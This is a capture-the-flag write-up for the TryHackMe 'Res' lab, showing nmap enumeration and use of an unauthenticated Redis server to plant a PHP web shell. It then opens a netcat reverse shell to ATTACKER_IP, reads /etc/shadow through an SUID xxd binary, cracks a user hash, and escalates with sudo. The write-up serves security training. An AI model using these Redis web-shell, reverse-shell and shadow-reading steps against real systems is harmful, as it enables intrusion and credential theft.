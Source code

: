 ```yaml
---
title: "Res"
collection: publications
permalink: /publication/RES
excerpt: 'This is a subscriber only room from Tryhackme'
date: 2023-02-22
venue: '02-22'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/header1.png)

**Link:** [Res](https://tryhackme.com/room/res)

## Description : 
Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

--- 

## Enumeration :
let's scan the target with nmap

``` console
nmap -sC -sV -T4 -p- 10.10.239.82 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 10.10.239.82
Host is up (0.10s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.04 seconds
```

* we got 2 open ports: 80 (apache web server) and 5279 (Redis which is a data structure storage service)
* i did some research and i found some enumeration steps for [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
* we can connect to redis service via redis-cli without credentials

**how to install redis-tools**

```bash
sudo apt-get install redis-tools
```

## Foothold :

* To achieve RCE we need to know the web directory, by default it's /var/www/html and we can be sure if we look at the apache web server
![proof](/images/proof.png)

* Run the following commands to achieve RCE : 
```console
redis-cli -h 10.10.239.82
 
10.10.239.82:6379> config set dir /var/www/html
OK
10.10.239.82:6379> config set dbfilename shell.php
OK
10.10.239.82:6379> set test "<?php system($_GET['cmd']) ?>"
OK
10.10.239.82:6379> save
OK
10.10.239.82:6379> exit
```

**let's start a netcat listener**

```bash
# nc -lvnp 1234
```

**let's trigger the reverse shell by visiting:**

```bash
http://10.10.239.82/shell.php?cmd=nc ATTACKER_IP PORT -e /bin/bash
```

![website](/images/revshell.png)

* we are in as www-data

```bash
# nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.18.2.136] from (UNKNOWN) [10.10.239.82] 51758
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

* we can upgrade the revese shell using the following commands

```bash
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
PRESS CTRL+Z
# stty raw -echo; fg
```

## Horizontal Privilege Escalation :
* We can see that there is a user called Vianka
* Let's check the files that have the SUID bit set
```bash
find / -perm -u=s -type f 2>/dev/null
``` 
![suid](/images/suid.png)

* The results show a binary xxd with the SUID bit set and the owner is root

* next step is to visit [GTFOBins](https://gtfobins.github.io/#)

![xxd](/images/xxd.png)

* We can read any file as root
* Let's read the shadow file and see if we can crack Vianka's hash

```bash
www-data@ubuntu:/home/vianka$ xxd /etc/shadow | xxd -r 
xxd /etc/shadow | xxd -r 
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
**crack Viank's hash with john**
![hash](/images/hash.png)

* switch user to vianka and get the flag 

![user-flag](/images/user-flag.png)

## Vertical Privilege Escalation :
* Let's check sudo privileges

```bash
vianka@ubuntu:~$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
* Vianka can run any commands with sudo
* All we need to do is run **sudo su**

![root-flag](/images/root-flag.png)